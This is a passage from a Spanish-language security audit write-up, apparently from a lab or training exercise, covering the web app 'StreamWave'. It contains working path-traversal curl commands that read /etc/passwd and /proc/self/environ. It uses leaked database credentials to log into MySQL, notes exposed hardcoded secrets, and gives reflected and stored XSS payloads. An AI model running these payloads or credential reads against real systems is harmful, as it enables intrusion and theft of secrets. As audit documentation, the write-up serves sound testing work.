 

El script se ejecutó en el origen de StreamWave y publicó automáticamente el comentario — **con la sesión de administrador activa** en el momento de la prueba, confirmando session-riding real. Al ser same-origin, bypasa de facto la única protección CSRF (6️⃣), porque la petición ya no es cross-site.

</details>

<details>
<summary><b>9️⃣ 🏆 Path Traversal en ?language= — lectura arbitraria + compromiso cruzado de PixelForge</b></summary>

<br>

El selector de idioma (`?language=...`) carga un fichero de traducciones sin sanear la ruta, y si no puede parsearse como JSON **muestra el contenido en crudo** directamente en la página:

```bash
curl "http://172.17.0.2:9090/?language=../../../../etc/passwd"
# Contenido completo de /etc/passwd, sin sesión
```



```bash
curl "http://172.17.0.2:9090/?language=../../../../proc/self/environ"
```



Variables de entorno reales: `GS_DB_HOST=127.0.0.1 GS_DB_PASS=gamepass GS_DB_USER=gameuser GS_DB_NAME=gamestore` — el prefijo `GS_` (GameStore) es **PixelForge**, otra aplicación del cliente auditada por separado:

```bash
mysql -h 127.0.0.1 -u gameuser -p'gamepass' gamestore
# Acceso de lectura completo confirmado: tablas coupons, password_resets, users
```

`/proc/self/cmdline` revela el entry point real (`/opt/streamwave/server.js`), que leído completo vía el mismo Path Traversal expone el **código fuente íntegro** de la aplicación:

 

Más de media docena de secretos de terceros (Stripe, AWS, SendGrid, Twilio, YouTube) hardcodeados en claro, el `JWT_SECRET` real (causa raíz exacta del bypass JWT de 5️⃣ — la verificación de firma vive dentro de `if (header.alg === 'HS256')`), y el secreto de sesión de `express-session`. Automatizado con `scripts/streamwave_lfi_scan.py`.

Lectura arbitraria de ficheros sin ninguna cuenta ni sesión, con compromiso cruzado confirmado de la base de datos de PixelForge — demuestra que las "4 aplicaciones independientes" del cliente no están aisladas entre sí a nivel de red/credenciales/filesystem. **El hallazgo más grave de toda la auditoría BigShop.**

</details>

<details>
<summary><b>🔟 XSS reflejado en el buscador (?q=), sin autenticación</b></summary>

<br>

El parámetro `q` se refleja en dos puntos con saneado inconsistente: en el `<h1>` de resultados se escapa correctamente, pero en el atributo `value` del propio `<input>` del buscador no se escapa en absoluto.

Un primer intento con `<script>alert(1)</script>` (sin cerrar antes la comilla) no dispara nada — queda inerte dentro de `value="..."`. El payload correcto:

```
GET /?q="><script>alert(document.domain)</script>
```



Ejecución de JS arbitrario con solo que la víctima abra un enlace, sin necesitar cuenta propia — mismo patrón de session-riding que 8️⃣, sin necesitar subir nada.

</details>

---

### Cierre de la auditoría

10 hallazgos confirmados, sin rutas pendientes de alto valor añadido (quedaban `/api/me` sin sesión activa y algunos aspectos de `/upload`/`/register`/`/login` sin profundizar más, descartados por bajo retorno frente a lo ya confirmado). Los dos hallazgos más graves de toda la auditoría BigShop están aquí: el **bypass JWT** (5️⃣, toma de cuenta admin real) y el **Path Traversal** (9️⃣, que cruza hacia PixelForge) — StreamWave es la única de las 4 aplicaciones cuyo compromiso se extiende, confirmado, más allá de sus propios límites.

---

⬅ [README principal](../../README.md)
